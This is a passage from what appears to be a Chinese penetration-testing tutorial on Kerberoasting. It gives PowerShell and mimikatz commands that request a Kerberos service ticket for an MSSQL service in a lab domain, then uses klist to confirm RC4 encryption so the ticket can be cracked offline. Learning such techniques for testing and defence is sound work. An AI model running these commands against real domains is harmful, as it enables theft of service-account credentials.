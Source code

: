 ### 4.3.3. 请求连接

这里我们可以进行请求一下，再请求后会留下票据，这里可以使用powershell或者mimakatz进行请求，如果再cs中，方便的话还是使用mimakatz进行请求。

```
请求：（要产生票据文件），选一个服务，查看是否是rc4加密
powershell Add-Type -AssemblyName System.IdentityModel
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"
或mimakatz请求
mimikatz kerberos::ask /target:MSSQLSvc/Srv-DB-0day.0day.org:1433
```

![image-20230724092510334](assets/LaIf2C7z3R8Xe1l.png)

### 4.3.4. 查看票据

这里可以看一下，一定要是RC4才能够进行破解成功。

```
klist
```

![image-20230724092611351](assets/Z8aGWkblm1z3Udc.png)
